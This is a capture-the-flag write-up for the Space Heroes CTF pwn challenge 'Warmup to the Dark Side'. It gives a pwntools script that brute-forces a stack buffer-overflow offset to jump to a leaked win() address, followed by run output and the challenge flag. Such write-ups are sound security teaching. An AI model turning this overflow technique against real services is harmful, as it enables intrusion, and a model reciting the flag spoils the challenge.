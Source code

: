 ```yaml
---
title: "shctf/pwn: Warmup to the Dark Side"
date: 2022-04-05 15:57:40
categories:
- ctfs
- shctf
- pwn
tags:
- pwn
- buffer-overflow
description: "Learn how to stack smash an ASLR-enabled program... without the binary! This is my writeup for the Space Heroes CTF binary/pwn challenge \"Warmup to the Dark Side\"."
permalink: ctfs/shctf/pwn/warmup-to-the-dark-side/
thumbnail: /asset/banner/banner-darkside.png
---
```


<style>
    .box {
        border: 1px solid rgb(23, 25, 27);
        border-radius: 5px;
        background-color: rgb(23, 25, 27);
        padding: 1rem;
        font-size: 90%;
        text-align: center;
        margin-top: 1rem;
        margin-bottom: 1rem;
    }
</style>

<div class="box">
    Once you start down the dark path, forever will it dominate your destiny.<br>
    (And yes, the binary isn't included)<br>
    <code>nc 0.cloud.chals.io 30096</code><br>
    <b>Author</b>: v10l3nt
</div>

Let's run that `netcat` link to see what's going on:

<figure class="highlight console">
    <table>
        <tr>
            <td class="code">
                <pre><span class="line"><span class="meta prompt_">$ </span><span class="language-bash">nc 0.cloud.chals.io 30096</span></span><br><span class="line">The Dark Side Of The Force, Are They. Easily They Flow, Quick To Join You In A Fight. The Dark Side resides at: 0x55a6b42f020c</span><br><span class="line">Jedi Mind tricks dont work on me &gt;&gt;&gt; </span><br></pre>
            </td>
        </tr>
    </table>
</figure>

We're given an address of the `win()` function... and that's it. If this is a `ret2win` challenge, how are we meant to find the offset of the `$rip` register and overflow it with our code? Of course... we need to brute force it.

In the code snippet below, I got the address provided in the prompt by reading the line and taking its substring (ASLR is enabled, so it's different each time). Then, I slowly increase the buffer of the payload with a loop until I find the right offset of the `$rip`:

<figure class="highlight py">
    <figcaption><span>warmup-to-the-dark-side.py</span><a target="_blank" rel="noopener"
      href="https://gist.github.com/jktrn/dd861b378b859a0588b48c71ad9fbf45"><span style="color:#82C4E4">github gist link</span></a></figcaption>
    <table>
        <tr>
            <td class="gutter">
                <pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br><span class="line">12</span><br></pre>
            </td>
            <td class="code">
                <pre><span class="line"><span class="keyword">from</span> pwn <span class="keyword">import</span> *</span><br><span class="line"></span><br><span class="line"><span class="keyword">for</span> i <span class="keyword">in</span> <span class="built_in">range</span>(<span class="number">32</span>,<span class="number">128</span>):</span><br><span class="line">        p = remote(<span class="string">&quot;0.cloud.chals.io&quot;</span>, <span class="number">30096</span>)</span><br><span class="line">        address = p.readlineS()[<span class="number">112</span>:<span class="number">126</span>]</span><br><span class="line">        log.info(<span class="string">&quot;Trying offset &quot;</span> + <span class="built_in">str</span>(i) + <span class="string">&quot; for address &quot;</span> + address)</span><br><span class="line">        p.sendline(<span class="string">b&#x27;A&#x27;</span>*i + p64(<span class="built_in">int</span>(address, base=<span class="number">16</span>)))</span><br><span class="line">        output = p.recvallS()</span><br><span class="line">        <span class="keyword">if</span> <span class="string">&quot;shctf&quot;</span> <span class="keyword">in</span> output:</span><br><span class="line">                log.success(output)</span><br><span class="line">                <span class="keyword">break</span></span><br><span class="line">        p.close()</span><br></pre>
            </td>
        </tr>
    </table>
</figure>

Let's run this script on the server to see if we can get the flag:

<figure class="highlight text">
    <table>
        <tr>
            <td class="code">
                <pre><span class="line">...</span><br><span class="line">[<span style="color:#277FFF"><b>*</b></span>] Trying offset 37 for address 0x55f788f1120c</span><br><span class="line">[<span style="color:#47D4B9"><b>+</b></span>] Receiving all data: Done (38B)</span><br><span class="line">[<span style="color:#277FFF"><b>*</b></span>] Closed connection to 0.cloud.chals.io port 30096</span><br><span class="line">[<span style="color:#47D4B9"><b>+</b></span>] Opening connection to 0.cloud.chals.io on port 30096: Done</span><br><span class="line">[<span style="color:#277FFF"><b>*</b></span>] Trying offset 38 for address 0x5631d523620c</span><br><span class="line">[<span style="color:#47D4B9"><b>+</b></span>] Receiving all data: Done (38B)</span><br><span class="line">[<span style="color:#277FFF"><b>*</b></span>] Closed connection to 0.cloud.chals.io port 30096</span><br><span class="line">[<span style="color:#47D4B9"><b>+</b></span>] Opening connection to 0.cloud.chals.io on port 30096: Done</span><br><span class="line">[<span style="color:#277FFF"><b>*</b></span>] Trying offset 39 for address 0x55980d2d520c</span><br><span class="line">[<span style="color:#47D4B9"><b>+</b></span>] Receiving all data: Done (38B)</span><br><span class="line">[<span style="color:#277FFF"><b>*</b></span>] Closed connection to 0.cloud.chals.io port 30096</span><br><span class="line">[<span style="color:#47D4B9"><b>+</b></span>] Opening connection to 0.cloud.chals.io on port 30096: Done</span><br><span class="line">[<span style="color:#277FFF"><b>*</b></span>] Trying offset 40 for address 0x55f0008b520c</span><br><span class="line">[<span style="color:#47D4B9"><b>+</b></span>] Receiving all data: Done (95B)</span><br><span class="line">[<span style="color:#277FFF"><b>*</b></span>] Closed connection to 0.cloud.chals.io port 30096</span><br><span class="line">[<span style="color:#47D4B9"><b>+</b></span>] Jedi Mind tricks dont work on me &gt;&gt;&gt; </span><br><span class="line">    shctf&#123;I_will_remov3_th3s3_restraints_and_leave_the_c3ll&#125;</span><br></pre>
            </td>
        </tr>
    </table>
</figure>


<a href="https://info.flagcounter.com/8Xkk"><img src="https://s01.flagcounter.com/count2/8Xkk/bg_212326/txt_C9CACC/border_C9CACC/columns_3/maxflags_12/viewers_3/labels_0/pageviews_1/flags_1/percent_0/" alt="Free counters!" border="0"></a>
